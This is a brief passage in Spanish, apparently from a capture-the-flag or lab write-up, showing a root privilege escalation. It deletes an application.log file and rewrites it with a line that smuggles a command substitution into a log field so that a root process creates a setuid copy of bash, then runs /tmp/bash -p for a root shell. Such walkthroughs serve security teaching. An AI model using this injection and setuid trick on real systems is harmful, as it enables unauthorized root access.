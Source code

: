 asi que primero eliminamos el archivo y lo volvemos a crear inyectando una linea con un comandos malicioso para que sea ejecutado por `root`

```bash
rm -rf application.log && echo 'HTTP Status: x[$(cp /bin/bash /tmp/bash;chmod u+s /tmp/bash)]' >> application.log
```

<img width="1918" height="288" alt="image" src="https://github.com/user-attachments/assets/0f86288d-e04f-4f16-9d29-6162901e4c37" />

escalamos a `root`

```bash
/tmp/bash -p
```

<img width="1918" height="336" alt="image" src="https://github.com/user-attachments/assets/71092c02-9153-4947-b08a-405963d138d8" />











